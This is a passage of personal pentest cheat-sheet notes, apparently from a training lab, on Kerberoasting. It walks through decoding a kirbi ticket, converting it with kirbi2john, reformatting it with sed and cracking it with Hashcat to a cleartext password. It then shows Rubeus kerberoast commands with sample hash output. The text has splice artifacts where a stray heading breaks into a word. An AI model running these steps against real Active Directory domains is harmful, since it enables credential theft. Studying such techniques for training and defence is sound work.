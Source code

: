 ```shell-session
$ cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.

```shell-session
$ python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat agNote on Encryption typesainst the hash.
#### Modifiying crack_file for Hashcat

```shell-session
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Now we can check and confirm that we have a hash that can be fed to Hashcat.

```shell-session
cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4c6c6f524afee5c68dacfcb6607291a20
```

We can then run the ticket through Hashcat again and get the cleartext password `database!`.

```shell-session
$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```


## END OF CHEATSHEET
---
# Some tool guides/details

#### rubeas settings
![[Pasted image 20250724115415.png]]
#### Using the /stats Flag
```powershell-sessionNote on Encryption types
.\Rubeus.exe kerberoast /stats
```
![[Pasted image 20250724115500.png]]

```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap


[*] Total kerberoastable users : 3


[*] SamAccountName         : backupagent
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*backupagent$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local@IN
```

---